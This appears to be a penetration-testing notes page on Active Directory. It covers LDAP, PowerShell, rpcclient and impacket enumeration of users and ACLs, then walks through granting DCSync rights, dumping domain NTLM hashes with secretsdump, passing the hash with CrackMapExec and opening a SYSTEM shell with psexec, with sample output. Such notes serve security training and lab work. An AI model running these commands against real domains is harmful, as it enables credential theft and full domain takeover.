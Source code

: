 ```yaml
---
layout: default
title: Active Directory
parent: ENUMERATION
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[VbScrub's YouTube channel](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)

[Searching LDAP](https://devconnected.com/how-to-search-ldap-using-ldapsearch-examples/)

[Enumerating user accounts](https://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html)

[Enumerating with RPCClient](https://ired.team/offensive-security/enumeration-and-discovery/enumerating-windows-domains-using-rpcclient-through-socksproxy-bypassing-command-line-logging)

[Authenticated SMB sessions](https://www.sans.org/blog/plundering-windows-account-info-via-authenticated-smb-sessions/)

[Resetting AD user password with Linux](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

## User enumeration
You won't get much without credentials, although you may get usernames which you could use with Kerbrute (see [here](kerberos.md)). Using `ldapsearch` with filters:
```bash
// Enumerating the domain root without credentials.
ldapsearch -H ldap://domain.local -x -b "dc=domain,dc=local"
```

If you have an account to work with your results should improve:
```bash
// This will include people and computers.
ldapsearch -H ldap://domain.local -x -D "user@domain.local" -w 'pass' -b "DC=domain,DC=local" "(ObjectClass=person)"

// This will include people and exclude computers.
ldapsearch -H ldap://domain.local -x -D "user@domain.local" -w 'pass' -b "DC=egotistical-bank,DC=local" "(&(ObjectClass=person)(!(ObjectClass=computer)))"

// Return only the requested attributes.
ldapsearch -H ldap://domain.local -x -D "user@domain.local" -w 'pass' -b "DC=egotistical-bank,DC=local" "(&(ObjectClass=person)(!(ObjectClass=computer)))" name samaccountname memberof
```

Enumerating users with Powershell:
```powershell
PS C:\> Import-Module ActiveDirectory
PS C:\> Get-ADUser -LDAPFilter "(ServicePrincipalName=*)"

// Will include computers.
PS C:\> Get-ADObject -LDAPFilter "(objectclass=user)"

// Will include users only.
PS C:\> Get-ADObject -LDAPFilter "(objectcategory=user)"

// Will include users and exclude computers.
PS C:\> Get-ADObject -LDAPFilter "(&(!(objectclass=computer)(objectclass=user)))"

// All SAM accounts.
PS C:\> Get-ADObject -LDAPFilter "(samaccountname=*)"

// Any user accounts ending in Smith.
PS C:\> Get-ADObject -LDAPFilter "(samaccountname=*Smith)"

// Return only the requested attributes.
PS C:\> Get-ADObject -LDAPFilter "(samaccountname=*Smith)" -Properties cn,objectsid,description,givenname,sn
```

Enumerating users with `rpcclient`:
```
// Can try with a null bind.
rpcclient -U '' -N 10.x.x.x
rpcclient -U '%' 10.x.x.x

// If you have credentials.
rpcclient -U 'user@domain.local%pass' 10.x.x.x

// Enumeration.
rpcclient $> enumdomusers
rpcclient $> queryuser Guest
```

Using `impacket`:
```bash
// Using null bind.
GetADUsers.py -all -dc-ip 10.x.x.x domain.local/

// With NTLM hashes.
GetADUsers.py -all -hashes aad3b435b51xxxxxxxxxxxx5b51404ee:58a52d36xxxxxxxxxxxxab9a201db1dd -dc-ip 10.x.x.x domain.local/
```

## Enumerating ACLs
To query ACLs, `dsacls` is the most usable:
```
dsacls DC=EGOTISTICAL-BANK,DC=LOCAL
```

PowerShell version:
```powershell
// Need to import the AD module first.
PS C:\> Import-Module ActiveDirectory

// Get ACLs.
PS C:\> Get-ACL
PS C:\> Get-ACL "AD:\DC=domain,DC=local"
PS C:\> Get-ACL "AD:\DC=domain,DC=local" | Select-Object -ExpandProperty Access

// With LDAP filter
PS C:\> Get-ADObject -LDAPFilter "(samaccountname=*Smith)" -Properties cn,objectsid,description,givenname,sn
```

## DC Sync Attack and Pass-the-Hash
If the account you are using has - or can get - permissions to sync with other domain controllers, you can impersonate a DC and sync the secrets database. Once you have the secrets, you can authenticate as another account by passing the account's hash. For this attack to work, you need to know the password for the account you are using, and the following permissions granted to the account (or be able to grant them):

```csharp
// Allows you to sync changes and impersonate a DC.
"Replicating Directory Changes"
"Replicating Directory Changes All"

// If you don't have the above permissions, but you do have this one,
// you may be able to grant them on the account you are using.
"Windows Exchange Permissions"
```

The best way to see if your account has these permissions set is to use:
```csharp
dsacls "DC=egotistical-bank,DC=local"
```

An alternative approach, although the output is horrendous (the output only contains `GUIDs` which require further lookups to resolve them to actual permissions), is:
```powershell
PS C:\> Get-ACL "AD:\DC=egotistical-bank,DC=local" | Select-Object -ExpandProperty Access
```

If you don't have the permissions, you may be able to add them using:
```powershell
PS C:\> Add-DomainObjectAcl -TargetIdentity "DC=egotistical-bank,DC=local" -PrincipalIdentity svc_loanmgr -Rights DCSync
```

If you're in luck and your account has the assigned permissions, you may be able to dump the secrets using:
```csharp
secretsdump.py -just-dc-ntlm domain.local/username@10.x.x.x
```

If successful, you now have the domain secrets which can be used to pass-the-hash. To do that, use `CrackMapExec` to check if you can pass-the-hash:
```csharp
crackmapexec smb 10.x.x.x -u Administrator -H aad3b435b51404xxxxxxxxxxxx1404ee:d9485863c1exxxxxxxxxxxxbb4ab9dff
```

If you see `(Pwn3d!)` next to the account the attack worked. To take advantage and return a privileged shell, use `psexec.py`:
```
psexec.py -hashes aad3b435b51404xxxxxxxxxxxx1404ee:d9485863c1exxxxxxxxxxxxbb4ab9dff Administrator@10.x.x.x

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.x.x.x.....
[*] Found writable share ADMIN$
[*] Uploading file VZBmPKju.exe
[*] Opening SVCManager on 10.x.x.x.....
[*] Creating service jluB on 10.x.x.x.....
[*] Starting service jluB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```